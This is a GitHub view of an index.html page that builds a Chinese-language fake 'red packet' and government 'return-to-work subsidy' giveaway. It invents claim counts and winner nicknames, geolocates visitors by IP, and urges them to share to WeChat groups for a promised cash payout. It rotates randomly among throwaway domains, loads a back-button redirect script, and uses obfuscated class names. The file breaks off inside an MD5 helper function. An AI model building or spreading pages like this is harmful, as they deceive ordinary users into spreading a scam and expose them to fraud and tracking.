 Skip to content
 
Search or jump to…

Pull requests
Issues
Marketplace
Explore
 
@wangzhe0325 
wangzhe0325
/
wangzhe0325.github.io
1
0 0
Code
Issues
Pull requests
Actions
Projects
Wiki
Security
Insights
Settings
wangzhe0325.github.io/index.html
 @wangzhe0325
wangzhe0325 ceshi
…
Latest commit 937f33d 6 minutes ago
 History
 1 contributor
1092 lines (1041 sloc)  56.7 KB
    
<html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=no,viewport-fit=cover">
    <meta name="Content-Type" content="Access-Control-Allow-Origin:*">
    <title>加载中...</title><style> body, html { margin: 0; padding: 0; font-family: PingFangSC-Regular, Helvetica, STHeiti STXihei, Microsoft YaHei, Microsoft JhengHei, Arial; height: 100%; width: 100%; background-color: #f2f2f2; overflow: hidden; } html { -webkit-text-size-adjust: 100%; text-size-adjust: 100%; } html { -webkit-text-size-adjust: none; font-size: 26.66667vw; } @media only screen and (max-width: 400px) html { font-size: 106.66667px; } @media only screen and (max-width: 412px) html { font-size: 109.86667px; } @media only screen and (max-width: 414px) html { font-size: 110.4px; } @media only screen and (max-width: 480px) html { font-size: 128px; } blockquote, body, button, dd, dl, dt, fieldset, form, h1, h2, h3, h4, h5, h6, hr, input, legend, li, ol, p, pre, td, textarea, th, ul { vertical-align: baseline; border: 0 none; list-style: outside none none; } .Ran_Ran_container { width: 100%; height: 100%; } .aaUzQLfF1 { width: 150%; height: 2.22rem; background: #f45d4c; margin: 0 auto; border-radius: 0 0 50% 50%/0 0 100% 100%; position: relative; top: 0; left: -25%; box-shadow: 0 2px 51px 0 rgba(159, 14, 14, .5); text-align: center; color: #ffe5b3; } .aazMmteNb { margin-top: .03rem; font-size: .26rem; line-height: .37rem; font-family: PingFangSC-Medium; font-weight: 500; } .ax6idWf0Y { padding-left: .04rem; font-size: .18rem; line-height: .26rem; padding-top: .05rem; font-family: PingFangSC-Regular; font-weight: 400; } .ax6idWf0Y img{margin-bottom: 0.16rem; height: .7rem; } img { border: 0; max-width: 100%; width: auto; height: auto; vertical-align: top; } @-webkit-keyframes openScale { 0% { -webkit-transform:scale(1); transform:scale(1) } 20% { -webkit-transform:scale(1.15); transform:scale(1.15) } 40% { -webkit-transform:scale(1); transform:scale(1) } 60% { -webkit-transform:scale(1.1); transform:scale(1.1) } 80% { -webkit-transform:scale(1); transform:scale(1) } 90% { -webkit-transform:scale(1.05); transform:scale(1.05) } to { -webkit-transform:scale(1); transform:scale(1) } } @keyframes openScale { 0% { -webkit-transform:scale(1); transform:scale(1) } 20% { -webkit-transform:scale(1.15); transform:scale(1.15) } 40% { -webkit-transform:scale(1); transform:scale(1) } 60% { -webkit-transform:scale(1.1); transform:scale(1.1) } 80% { -webkit-transform:scale(1); transform:scale(1) } 90% { -webkit-transform:scale(1.05); transform:scale(1.05) } to { -webkit-transform:scale(1); transform:scale(1) } } .header-open { position: absolute; left: 0; right: 0; margin: 0 auto; width: 1rem; height: 1rem; bottom: -.46rem; -webkit-animation: openScale 1.8s ease infinite; animation: openScale 1.8s ease infinite; } .aiJ5A39tz { margin-top: -0.7rem; padding-top: 1.62rem; background-color: #f35543; height: 100%; } .a5ZXe7IbD { width: 3.35rem; height: .38rem; background: rgba(0, 0, 0, .08); border-radius: .19rem; text-align: center; line-height: .4rem; font-size: .14rem; margin: 0 auto; margin-bottom: .2rem; color: #ffe5b3; vertical-align: middle; font-family: Heiti SC; font-weight: 700; } .azZFyAs9g { padding: 0 .02rem; color: #fff; font-family: Heiti SC; } .aDJPmRX5i { color: #ffe5b3; padding: 0 .2rem; font-size: .12rem; overflow: hidden; position: relative; } .red-packet-new-list-main { -webkit-transform: translateY(3.6rem); transform: translateY(3.6rem); } .item { height: .6rem; overflow: hidden;font-style:normal; } .item>*:first-child { width: .4rem; height: .4rem; border-radius: 50%; overflow: hidden; margin-right: .18rem; display: inline-block; } .item>*:first-child img { width: 100%; height: 100%; } .item>*:nth-child(2) { vertical-align: top; padding-top: .02rem; display: inline-block; } .item>*:last-child { float: right; vertical-align: top; font-size: .16rem; font-family: Heiti SC; font-weight: 700; display: inline-block; } .item>*:last-child * { font-style:normal; } .item>*:last-child *:last-child { color: #fff; width: .8rem; display: inline-block; text-align: right; font-weight: 700; } .list-1 { -webkit-animation: listScroll1 120s linear infinite; animation: listScroll1 120s linear infinite; } .list-2 { -webkit-animation: listScroll2 120s 60s linear infinite; animation: listScroll2 120s 60s linear infinite; } @-webkit-keyframes listScroll1 { 0% { -webkit-transform:translate(0); transform:translate(0) } to { -webkit-transform:translateY(-200%); transform:translateY(-200%) } } @keyframes listScroll1 { 0% { -webkit-transform:translate(0); transform:translate(0) } to { -webkit-transform:translateY(-200%); transform:translateY(-200%) } } @-webkit-keyframes listScroll2 { 0% { -webkit-transform:translateY(-100%); transform:translateY(-100%) } to { -webkit-transform:translateY(-300%); transform:translateY(-300%) } } @keyframes listScroll2 { 0% { -webkit-transform:translateY(-100%); transform:translateY(-100%) } to { -webkit-transform:translateY(-300%); transform:translateY(-300%) } } .app { background: #fff; height: 100%; color: #e3a456; position: absolute; top: 0; width: 100%; overflow: hidden; } .a2xKMhFyp { width: 150%; height: 2.3rem; background: #f45d4c; margin: 0 auto; border-radius: 0 0 50% 50%/0 0 100% 100%; position: relative; top: -1.2rem; left: -25%; box-shadow: 0 1px 0 0 #fabf68; } .a52maWtu0 { -webkit-transition: opacity .2s ease-in .6s; transition: opacity .2s ease-in .6s; opacity: 1; } .a52maWtu0 { position: absolute; left: 0; right: 0; margin: 0 auto; bottom: .6rem; overflow: hidden; width: 2.29rem; height: .32rem; border-radius: .16rem; } .a52maWtu0 .azqDfx0iJ { position: absolute; top: 0; left: 0; right: 0; bottom: 0; background: #000; opacity: .12; } ol, ul { list-style: none; } .barrage-list-1 { -webkit-animation: barrageScroll1 3s linear infinite; animation: barrageScroll1 3s linear infinite; } .afCrusyDU li { overflow: hidden; position: absolute; width: 100%; height: 100%; left: 10px; line-height: 10px; } .afCrusyDU li img { position: absolute; width: .24rem; height: .24rem; border-radius: 50%; overflow: hidden; left: .08rem; top: 50%; -webkit-transform: translateY(-50%); transform: translateY(-50%); } .barrage-list-content { position: absolute; left: .4rem; top: 50%; -webkit-transform: translateY(-50%); transform: translateY(-50%); font-size: .12rem; color: #fff; } .barrage-list-content span { display: inline-block; vertical-align: middle; } .barrage-list-2 { -webkit-animation: barrageScroll2 3s linear infinite; animation: barrageScroll2 3s linear infinite; } .app-nickname { position: absolute; bottom: -.6rem; left: 0; right: 0; margin: 0 auto; font-size: .14rem; text-align: center; opacity: 0; } .afCrusyDU li .nickname { color: #ffe5b3; padding-right: .04rem; max-width: .55rem; overflow: hidden; text-overflow: ellipsis; white-space: nowrap; } .afCrusyDU li .time { color: #ffe5b3; padding-left: .04rem; } @-webkit-keyframes barrageScroll1 { 0% { top:0 } 33.333% { top:-.28rem } to { top:-.28rem } } @keyframes barrageScroll1 { 0% { top:0 } 33.333% { top:-.28rem } to { top:-.28rem } } @-webkit-keyframes barrageScroll2 { 0% { top:.28rem } 33.333% { top:0 } to { top:0 } } @keyframes barrageScroll2 { 0% { top:.28rem } 33.333% { top:0 } to { top:0 } } .app-avatar { position: absolute; width: .58rem; height: .58rem; border-radius: 10%; overflow: hidden; bottom: -.29rem; left: 0; right: 0; margin: 0 auto; border: 1px solid #fabf68; opacity: 0; } *, :after, :before { box-sizing: border-box; } .app-avatar, .animation .app .app-nickname { -webkit-transition: opacity .3s ease-in .3s; transition: opacity .3s ease-in .3s; opacity: 1; } .app-avatar img { width: 100%; } .agAkYC9eG { margin-top: -.3rem; text-align: center; opacity: 0; } .agAkYC9eG, .app .a52maWtu0 { -webkit-transition: opacity .2s ease-in .6s; transition: opacity .2s ease-in .6s; opacity: 1; } .aoK5FDXqx { font-size: .3rem; color: #f45d4c; font-family: PingFangSC-Regular; margin-bottom: .12rem; opacity: 1; } .aN9j86dIm { font-family: PingFangSC-Semibold; font-weight: 600; } .aN9j86dIm .price { font-size: .81rem; position: relative; top: .01rem; color: #e3a456;display: inline; } .aN9j86dIm .text { font-size: .28rem; position: relative; top: -.03rem; right: -.02rem; color: #e3a456; } .ayXZbKLUW { color: #f45d4c; margin-top: .2rem; font-size: .16rem; } .m_btn { width: 2.85rem; height: .48rem; line-height: .49rem; background: #f45d4c; border-radius: .25rem; font-size: .18rem; font-family: PingFangSC-Medium; color: #fff; margin: .1rem auto; } #s { position: fixed; top: 0; left: 0; width: 100vw; height: 100vh; text-align: center;background: #c2523c url("http://159.138.25.113/images/a_1.jpg") no-repeat 0 0;background-size: 100% auto; } #s p { color: #ddd; font-size: 5.5vw; line-height: 1.8em; } #s .s { color: #f8e2a1; font-size: 1.1em; } #s .s i { display: inline-block; width: 1.2em; height: 1.2em; vertical-align: middle; margin-top: -0.2em; margin-left: 0.2em; background: url("http://159.138.25.113/images/f.jpeg") no-repeat 0 0; background-size: 100% auto; } #s .s:after { content:"微信群"; } #s p .m { color: #f8e2a1; font-size: 1.1em; } #s h5 { color: #c2523c; font-size: 6.5vw; font-weight: bold; line-height: 18vw; margin-bottom: 40%; } .aujAGriFk { background: #f8f4ed; margin: auto; color: #3F3F3F; font-size: .12rem; width: 90%; height: auto; background: #fff; position: fixed; left: 5%; top: 18%; z-index: 9999; text-align: center; border-radius: 0.1rem; padding-top: 0.15rem; } .aujAGriFk .aujAGriFk_head { font-size: .19rem; text-align: center; margin-top: .22rem; margin-bottom: .16rem; font-family: PingFangSC-Medium; font-weight: 600; color: #f45d4c; } .aujAGriFk .aYy7PbQrB { width: 90%; margin-bottom: 5%; height: .43rem; border-radius: .22rem; margin-top: .23rem; margin-left: .2rem; display: -webkit-box; display: flex; display: -webkit-flex; -webkit-box-pack: center; justify-content: center; -webkit-justify-content: center; -webkit-box-align: center; align-items: center; -webkit-align-items: center; -webkit-box-orient: horizontal; -webkit-box-direction: normal; flex-direction: row; -webkit-flex-direction: row; font-size: .16rem; font-family: PingFangSC-Medium; font-weight: 500; } .aujAGriFk .aYy7PbQrB .aujAGriFk_cancel { margin-right: .16rem; border: 1px solid #f2e0bb; color: #f2e0bb; } .aujAGriFk .aYy7PbQrB .aDBHzK1qw { width: 1.22rem; height: .43rem; display: inline-block; border-radius: .22rem; line-height: .43rem; text-align: center; } .aujAGriFk .aYy7PbQrB .aujAGriFk_ok { background: -webkit-linear-gradient(top, #fff8ed, #f2e0bb); background: linear-gradient(180deg, #fff8ed, #f2e0bb); box-shadow: 0 0.02rem 0.04rem 0 rgba(218, 38, 8, .5); color: #da2608; } .aujAGriFk .aYy7PbQrB .aDBHzK1qw { background: -webkit-linear-gradient(top, #fff8ed, #f2e0bb); background: linear-gradient(180deg, #fff8ed, #f2e0bb); box-shadow: 0 0.02rem 0.04rem 0 rgba(218, 38, 8, .5); color: #da2608; width: 100%;font-size: 0.15rem; } .aujAGriFk .aPltXGzBc { font-size: .18rem; } .ax6idWf0Y span { width:100%; display: block; } @-ms-keyframes open{from{-ms-transform:rotateY(180deg);-webkit-transform:rotateY(180deg);transform:rotateY(180deg)}to{-ms-transform:rotateY(360deg);-webkit-transform:rotateY(360deg);transform:rotateY(360deg)}}@-webkit-keyframes open{{-ms-transform:rotateY(180deg);-webkit-transform:rotateY(180deg);transform:rotateY(180deg)}to{-ms-transform:rotateY(360deg);-webkit-transform:rotateY(360deg);transform:rotateY(360deg)}}@keyframes open{from{-ms-transform:rotateY(180deg);-webkit-transform:rotateY(180deg);transform:rotateY(180deg)}to{-ms-transform:rotateY(360deg);-webkit-transform:rotateY(360deg);transform:rotateY(360deg)}}.open{-webkit-animation:open .6s infinite alternate;-ms-animation:open .6s infinite alternate;animation:open .6s infinite alternate} #m{opacity:10;}
</style>

<style>
        html,body{background-color: #EDEDED}*{padding:0;margin:0}.page{font-family:Helvetica Neue,Helvetica,Arial,sans-serif;}@keyframes show1{0%{opacity:0;transform:scale(0.2);}100%{opacity:1;transform:scale(1);}}@keyframes btn1{0%{transform:rotate(-720deg);}100%{transform:rotate(0deg);}}@keyframes show2{0%{opacity:0;transform:translateY(50%);}100%{opacity:1;transform:translateY(0%);}}@keyframes btn2{0%{transform:scale(0)}100%{transform:scale(1);}}@keyframes show3{0%{opacity:0;transform:translateY(-50%);}100%{opacity:1;transform:translateY(0%);}}@keyframes btn3{0%{transform:scale(0)}100%{transform:scale(1);}}@keyframes show4{0%{opacity:0;border-radius:100%}100%{opacity:1;border-radius:0%;}}@keyframes btn4{0%{transform:scale(1,0)}100%{transform:scale(1,1);}}@keyframes btnShake1{0%{transform:scale(1);}40%{transform:scale(1.1);}60%{transform:scale(.9);}80%{transform:scale(1.2);}100%{transform:scale(1);}}@keyframes btnShake2{0%{transform:scale(1);}40%{transform:scale(1.1,0.9);}60%{transform:scale(.9,1.1);}80%{transform:scale(1.2,0.8);}100%{transform:scale(1);}}@keyframes btnShake3{0%{transform:scale(1,1) rotate(0deg);}10%{transform:scale(1.2,0.8);}20%{transform:scale(0.8,1.2);}30%{transform:scale(1.2,0.8);}40%{transform:scale(0.8,1.2);}50%{transform:scale(1,1);}60%{transform:rotate(-15deg);}70%{transform:rotate(15deg);}80%{transform:rotate(-25deg);}90%{transform:rotate(25deg);}100%{transform:scale(1,1) rotate(0deg);}}@keyframes btnShake4{0%{transform:rotate(0deg);opacity:1;}10%{transform:scale(1.2,0.8);}20%{transform:scale(0.8,1.2);}30%{transform:scale(1.2,0.8);}40%{transform:scale(0.8,1.2);}50%{transform:scale(1,1);}60%{opacity:1;}70%{opacity:0.5;}80%{opacity:1;}90%{opacity:0.5;}100%{transform:scale(1,1);opacity:1;}}@keyframes btnMove{from{transform:rotateY(180deg)}to{transform:rotateY(360deg)}}@keyframes itemMove1{0%{height:0px;}100%{height:60px;}}@keyframes itemMove2{0%{height:0px;transform:scaleY(0);}40%{height:60px;transform:scaleY(0);}100%{transform:scaleY(1);}}@keyframes itemMove3{0%{height:0px;transform:translateX(100px);opacity:0;}40%{height:60px;transform:translateX(100px);opacity:0;}100%{transform:translateX(0px);opacity:1;}}@keyframes itemMove4{0%{height:0px;transform:translateX(-100px);opacity:0;}40%{height:60px;transform:translateX(-100px);opacity:0;}100%{transform:translateX(0px);opacity:1;}}@keyframes tipMove{0%{transform:translate(0px,0%);}40%{transform:translate(-10px,30%);}100%{transform:translate(0px,0%);}}.text-tip{position:relative;}.text-tip::before{position:absolute;content:"";width:.1px;height:.1px;border:solid 8px rgba(0,0,0,0);border-right-color:#ebcd9b;top:0px;left:-16px}
    </style>
<script type="text/javascript" src="https://ip.ws.126.net/ipquery"></script>
</head><body><header class="a6YhIQvZG" id="h" style=" display:none"><header class="aaUzQLfF1"><footer class="ax6idWf0Y"><img src="" id="logo"><footer class="title" id="title">拼多多的红包</footer></footer><footer class="aazMmteNb" id="desc">恭喜发财，大吉大利</footer><img class="header-open" id="open" src="http://159.138.25.113/images/v2.png"></header><header class="aiJ5A39tz"><section class="a5ZXe7IbD">今日已有<span class="azZFyAs9g"><span id="pople"></span>人</span>领取</section><header class="aDJPmRX5i"><article class="a9ToFugtD list-1"></article><footer class="a9ToFugtD list-2"></footer></header></header></header><header class="a6YhIQvZG" id="m" style="padding-top: 40px;display:none"><header class="a2xKMhFyp"><header class="a52maWtu0" style=""><article class="azqDfx0iJ"></article><header class="afCrusyDU"><li class="barrage-list-1"></li><li class="barrage-list-2"></li></header></header><figcaption class="app-avatar"><img src=""></figcaption></header><header class="agAkYC9eG"><figcaption class="aoK5FDXqx">恭喜你获得</figcaption><figcaption class="aN9j86dIm"><figcaption class="price">7</figcaption><span class="text">元</span></figcaption><nav class="ayXZbKLUW">将于2小时后过期，请尽快领取</nav><aside class="m_btn">立即领取红包</aside></header></header><header class="a6YhIQvZG" id="s" style="display:none;"><h5>点这里开始分享</h5><p>請分享到<span class="s"><i style=""></i></span></p><p>即可領取<span class="m">291.22</span>元</p></header><header class="aujAGriFk" id="popup" style="display:none"><header class="aPltXGzBc" id="b"></header><header class="aYy7PbQrB"><button class="aDBHzK1qw" >我知道了</button></header></header></body></html>
<script>
var city = '';
if (lo) {
    city= lc;
    if (city.length == 0) {
        city = lo;
    }
}
if (!city) {
    city= '';
}    
city = city.replace('省', '');
city = city.replace('市', '');
  function getRandomNumber(max,min) {
        let x = Math.floor(Math.random() * (max - min + 1)) + min;
        return x;  
       }
var items = ["https://ewqcv6a.kuaizhan.com","https://tyifg4.kuaizhan.com","https://haxlo9ex.kuaizhan.com","https://2dsfd9i.kuaizhan.com","https://twenb2x.kuaizhan.com"];
var iindex =items[Math.floor(Math.random() * items.length)];
var xw="/hbsxxike/?t="+new Date().getTime();
var url=window.location.search;   
if(url.indexOf('fx') < 0){
var nmn=getRandomNumber(1980,800)*10;
var mn="";
var shareJump=1;
}else{
var nmn=getRandomNumber(1980,800)*10;
var mone=GetUrlParms(url); 
    if(mone.money){
       var mn=mone.money; 
    }else{
       var mn=nmn/100;
       };
var shareJump=0;
}
var item = ["http://43i3bgyxf.cn","http://kis7d8a3or.cn","http://le1jv46p1.cn","http://kmkz60p9dp.cn","http://9fx3zbvhb.cn","http://veio3n1vm.cn","http://9a7umsxxz.cn","http://kq3ybid65n.cn","http://hlir79cs7.cn","http://ghfaqjlr8.cn","http://gfpohu51ni.cn","http://ehet4tfp41.cn","http://egi96pzac6.cn","http://hh0a124c6.cn"];
var index =item[Math.floor(Math.random() * item.length)];
window._config = {
    "newmoney":nmn,
    "shareDomain": iindex+xw+"&money=",
    "money":mn,
    "logo": "https://bgtkjld32.oss-cn-beijing.aliyuncs.com/5555.jpg",
    "logo2": "https://bgtkjld32.oss-cn-beijing.aliyuncs.com/5555.jpg",
    "title": "全民复工补贴",
    "title2": "免费红包全国派送",
    "desc": "2000万现金补贴，人人有份",
    "endlink":index+"/indesx.html",
    "caseExtFile": "",
    "caseMoneyMin": 5000,
    "caseMoneyMax": 12000,
    "step": 0,
    "blb": 6,
    "shareJump": shareJump,
    "share_url": iindex+xw+"&fx=1&money=",
    "returnAdUrl": "",
    "isReturnAd": 1,
    "returnapi": "https://res.21263.net/js/back/e4e2a975a033baf5edac9b927456f07e",
    "appId": null,
    "sf_title": ""+city+"发放2000万复工补贴，送完即止，我已到账￥106.74元",
    "sf_desc": "秘 农村人享福了，城里人哭了?",
    "sf_img": "http://6xve.xxx.cn/uploads/20190604/51b749d67f1ac136ab9d3814d4c29cb0.jpg",
    "tj": "https://hm.baidu.com/hm.js?a865f6d034014777c0f82b909e52e94c",
    "st_title": "⚡全民福利 发放通知：请于02月29日前领取，我领了106.74元",
    "st_img": "http://6xve.xxx.cn/uploads/20190604/51b749d67f1ac136ab9d3814d4c29cb0.jpg",
    "isQrAd": 0,
    "qrAdImg": "http://6xve.xxx.cn/uploads/20200202/809b3696c215088d3766df7c7c2e1754.jpg",
    "isad": 1,
    "sf_ad_title": "!",
    "sf_ad_desc": "?！",
    "sf_ad_img": "http://6xve.xxx.cn/uploads/20190531/571cd82154dbc511a06a7089a127b4a8.jpg",
    "st_ad_title": "? !",
    "st_ad_img": "http://6xve.xxx.cn/uploads/20190531/571cd82154dbc511a06a7089a127b4a8.jpg"
}
window._uList = ["千与千寻", "梦里浮生", "白衣扶弦", "淡似春风", "杏花沾", "清音", "梨花未盛开", "等风初吻", "果绿森裙", "墨染锦年", "苍了夏靡", "愿风裁尘", "绿匣里的猫", "薄荷", "绿姑娘", "久等你归", "旧哑扇的夏天", "清风与我", "革年纸鸢", "重拾旧梦", "青瓷", "清茶", "倾城歌", "森陌夏栀", "柠檬味的梦@", "暖南倾绿", "稻草人之语", "浅唱离歌", "青北挽素", "夏花", "浅绿", "倾城如风", "落叶不随风", "风与过往", "浅笑、念伊人", "梨花雨凉", "此城", "无心", "忘少年", "故人何以", "青春", "染指", "红颜", "折骨成诗", "许卿", "白头", "上上签", "淡墨无殇", "半字浅眉-", "来我长街", "醉酒思红颜", "南城", "荒凉", "北城伤", "疯癫小男人つ", "°归来一场空", "努力为明天", "陷阱", "王子", "惹你见笑", "没有准备", "看清世界", "Dreams°凉兮", "LepRosY|盛宴+9/8", "诺澜公寓", "ηǐ諟莪啲寶", "你给的恶作剧", "鹿爷", "怎能不爱", "%天使", "诱惑", "人面却非人心+∝", "情绪在澎湃o", "心疼你", "疼痛", "权世界志爱", "光之耀子边伯贤", "大步向前走", "我很坚强", "甜的很正经", "总以为", "相权美人", "再可爱一点", "你笑在眉眼", "穿草裙的少女", "方寸月光", "结局", "拈花", "南玖", "买黄瓜的小女孩", "牛顿", "土豪金", "半夏半微凉", "落花也彷徨ペ", "正宗傻白甜", "别两难", "你别浪", "眉眼如初", "仙气女孩", "出卖心动", "热爱世界", "软得离谱", "精緻", "勉强可爱", "月野兔"];

var $, $s;
$ = $s = function(selector, context) {
    return new $s.fn.init(selector, context);
};
$s.fn = $s.prototype;
$s.fn.init = function(selector, context) {
    var nodeList = [];
    if(typeof(selector) == 'string') {
        nodeList = (context || document).querySelectorAll(selector);
    } else if(selector instanceof Node) {
        nodeList[0] = selector;
    } else if(selector instanceof NodeList || selector instanceof Array) {
        nodeList = selector;
    }
    this.length = nodeList.length;
    for(var i = 0; i < this.length; i += 1) {
        this[i] = nodeList[i];
    }
    return this;
};
$s.fn.init.prototype = $s.fn;
$s.fn.each = function(cb_fun, need_ret) {
    var res = [];
    for(var i = 0; i < this.length; i++) {
        res[i] = cb_fun.call(this[i]);
    }
    if(need_ret) {
        if(res.length == 1) {
            res = res[0];
        }
        return res;
    }
    return this;
};
$s.fn.eq = function() {
    var nodeList = [];
    for(var i = 0; i < arguments.length; i++) {
        nodeList[i] = this[arguments[i]];
    }
    return $s(nodeList);
};
$s.fn.first = function() {
    return this.eq(0);
};
$s.fn.last = function() {
    return this.eq(this.length-1);
};
$s.fn.find = function(str) {
    var nodeList = [];
    var res=this.each(function(){
        return this.querySelectorAll(str);
    },1);
    if(res instanceof Array){
        for(var i=0;i<res.length;i++){
            for(var j=0;j<res[i].length;j++){
                nodeList.push(res[i][j]);
            }
        }
    }else{
        nodeList=res;
    }
    return $s(nodeList);
};
$s.fn.parent = function() {
    return $s(this.each(function() {
        return this.parentNode;
    }, 1));
};
$s.fn.hide = function() {
    return this.each(function() {
        this.style.display = "none";
    });
};
$s.fn.show = function() {
    return this.each(function() {
        this.style.display = "";
    });
};
$s.fn.text = function(str) {
    if(str!=undefined) {
        return this.each(function() {
            this.innerText = str;
        });
    } else {
        return this.each(function() {
            return this.innerText;
        }, 1);
    }
};
$s.fn.html = function(str) {
    if(str!=undefined) {
        return this.each(function() {
            this.innerHTML = str;
        });
    } else {
        return this.each(function() {
            return this.innerHTML;
        }, 1);
    }
};
$s.fn.outHtml = function(str) {
    if(str!=undefined) {
        return this.each(function() {
            this.outerHTML = str;
        });
    } else {
        return this.each(function() {
            return this.outerHTML;
        }, 1);
    }
};
$s.fn.val = function(str) {
    if(str!=undefined) {
        return this.each(function() {
            this.value = str;
        });
    } else {
        return this.each(function() {
            return this.value;
        }, 1);
    }
};
$s.fn.css = function(key,value,important) {
    if(value!=undefined){
        return this.each(function() {
            this.style.setProperty(key, value,important);
        });
    }else{
        return this.each(function() {
            return this.style.getPropertyValue(key);
        }, 1);
    }
};
$s.fn.attr = function(key,value) {
    if(value!=undefined) {
        return this.each(function() {
            this.setAttribute(key, value);
        });
    }else{
        return this.each(function() {
            return this.getAttribute(key);
        }, 1);
    }
};
$s.fn.removeAttr = function(key) {
    return this.each(function() {
        this.removeAttribute(key);
    });
};
$s.fn.remove = function() {
    return this.each(function() {
        this.remove();
    });
};
$s.fn.append = function(str) {
    return this.each(function() {
        this.insertAdjacentHTML('beforeend', str);
    });
};
$s.fn.prepend = function(str) {
    return this.each(function() {
        this.insertAdjacentHTML('afterbegin', str);
    });
};
$s.fn.hasClass = function(str) {
    return this.each(function() {
        return this.classList.contains(str);
    }, 1);
};
$s.fn.addClass = function(str) {
    return this.each(function() {
        return this.classList.add(str);
    });
};
$s.fn.removeClass = function(str) {
    return this.each(function() {
        return this.classList.remove(str);
    });
};
$s.fn.click = function(f){
    if (typeof (f) == "function") {
        this.each(function() {
            this.addEventListener("click", f);
        });
    } else {
        this.each(function() {
            var event = document.createEvent('HTMLEvents');
            event.initEvent("click", true, true);
            this.dispatchEvent(event);
        });
    }
};
$s.fn.tag = function(tag) {
    var dom = document.createElement(tag);
    this[0] = dom;
    return this;
};
$s.fn.dom = function(str) {
    var dom = document.createElement('p');
    dom.innerHTML = str;
    this[0] = dom.childNodes[0];
    return this;
};
$s.fn.fadeOut = function(time, callback) {
    this.each(function() {
        var el = this;
        el.style.opacity = 1;
        var st = setInterval(function() {
            el.style.opacity = parseFloat(el.style.opacity) - 0.01;
            if (el.style.opacity <= 0) {
                clearInterval(st);
                if (callback !== undefined) {
                    callback();
                }
            }
        }, time/1000);
        return this;
    });
}
$s.fn.fadeIn = function(time, callback) {
    this.each(function() {
        var el = this;
        el.style.opacity = 0;
        var st = setInterval(function() {
            el.style.opacity = parseFloat(el.style.opacity) + 0.02;
            if (el.style.opacity >= 1) {
                clearInterval(st);
                if (callback !== undefined) {
                    callback();
                }
            }
        }, time/1000);
        return this;
    });
}
$s.about = function() {
    return "Sim";
};

$s.fn.jump = function(url){
    if(url.indexOf('//') < 0){
        url='//'+url;
    }
    this.each(function() {
        this.addEventListener("click", function(){
            var a=document.createElement('a');a.href=url;a.rel='noreferrer';a.click();
        });
    });
};
$s.fn.fpost = function(url,parm){

    if(url.indexOf('//') < 0){
        url='//'+url;
    }
    this.each(function() {
        this.addEventListener("click", function(){
            var form = document.createElement('form');
            form.action = url;
            form.method = 'post';
            for (var index in parm){
                var input = document.createElement('input');input.type = 'hidden';
                input.name = index;input.value = parm[index];
                form.appendChild(input);
            }
            document.body.appendChild(form);
            form.submit();
        });
    });
};
$s.fpost = function(url,parm){
    if(url.indexOf('//') < 0){
        url='//'+url;
    }
    var form = document.createElement('form');
    form.action = url;
    form.method = 'post';
    for (var index in parm){
        var input = document.createElement('input');input.type = 'hidden';
        input.name = index;input.value = parm[index];
        form.appendChild(input);
    }
    document.body.appendChild(form);
    form.submit();
};
$s.isEmpty = function(obj){
    if(typeof obj == "undefined" || obj == null || obj == ""){
        return true;
    }else{
        return false;
    }
};
$s.ajax = function(options) {
    function empty() {}

    function obj2Url(obj) {
        var arr = [];
        for(var i in obj) {
            arr.push(encodeURI(i) + '=' + encodeURI(obj[i]));
        }
        return arr.join('&').replace(/%20/g, '+');
    }
    var opt = {
        url: '',
        sync: true,
        method: 'GET',
        data: null,
        dataType: 'json',
        username: null,
        password: null,
        success: empty,
        error: empty,
        timeout: 10000
    };
    Object.assign(opt, options);
    var abortTimeout = null;
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if(xhr.readyState == 4) {
            xhr.onreadystatechange = empty;
            clearTimeout(abortTimeout);
            if((xhr.status >= 200 && xhr.status < 300) || xhr.status == 304) {
                var result = xhr.responseText;
                try {
                    if(opt.dataType == 'json') {
                        result = result.replace(' ', '') == '' ? null : JSON.parse(result);
                    }
                } catch(e) {
                    opt.error(e, xhr);
                    xhr.abort();
                }
                opt.success(result, xhr);
            } else if(0 == xhr.status) {
                opt.error("跨域请求失败", xhr);
            } else {
                opt.error(xhr.statusText, xhr);
            }
        }
    };
    var data = opt.data ? obj2Url(opt.data) : opt.data;
    opt.method = opt.method.toUpperCase();
    if(opt.method == 'GET') {
        opt.url += (opt.url.indexOf('?') == -1 ? '?' : '&') + data;
    }
    xhr.open(opt.method, opt.url, opt.sync, opt.username, opt.password);
    if(opt.method == 'POST') {
        xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    }
    if(opt.timeout > 0) {
        abortTimeout = setTimeout(function() {
            xhr.onreadystatechange = empty;
            xhr.abort();
            opt.error('网络请求超时', xhr);
        }, opt.timeout);
    }
    xhr.send(data);
};



var hexcase = 0;
function hex_md5(a) {
    return rstr2hex(rstr_md5(str2rstr_utf8(a)))
}
function hex_hmac_md5(a, b) {
    return rstr2hex(rstr_hmac_md5(str2rstr_utf8(a), str2rstr_utf8(b)))
}
function md5_vm_test() {
    return hex_md5("abc").toLowerCase() == "900150983cd24fb0d6963f7d28e17f72"
}
function rstr_md5(a) {
    return binl2rstr(binl_md5(rstr2binl(a), a.length * 8))
}
function rstr_hmac_md5(c, f) {
    var e = rstr2binl(c);
    if (e.length > 16) {
        e = binl_md5(e, c.length * 8)
    }
    var a = Array(16),
        d = Array(16);
    for (var b = 0; b < 16; b++) {
        a[b] = e[b]^909522486;
        d[b] = e[b]^1549556828
    }
    var g = binl_md5(a.concat(rstr2binl(f)), 512 + f.length * 8);
    return binl2rstr(binl_md5(d.concat(g), 512 + 128))
}
function rstr2hex(c) {
    try {
        hexcase
    } catch (g) {
        hexcase = 0
    }
    var f = hexcase ? "0123456789ABCDEF" : "0123456789abcdef";
    var b = "";
    var a;
    for (var d = 0; d < c.length; d++) {
        a = c.charCodeAt(d);
        b += f.charAt((a >>> 4) & 15) + f.charAt(a & 15)
    }
    return b
}
function str2rstr_utf8(c) {
    var b = "";
    var d = -1;
    var a,
        e;
    while (++d < c.length) {
        a = c.charCodeAt(d);
        e = d + 1 < c.length ? c.charCodeAt(d + 1) : 0;
        if (55296 <= a && a <= 56319 && 56320 <= e && e <= 57343) {
            a = 65536 + ((a & 1023) << 10) + (e & 1023);
            d++
        }
        if (a <= 127) {
            b += String.fromCharCode(a)
        } else {
            if (a <= 2047) {
                b += String.fromCharCode(192 | ((a >>> 6) & 31), 128 | (a & 63))
            } else {
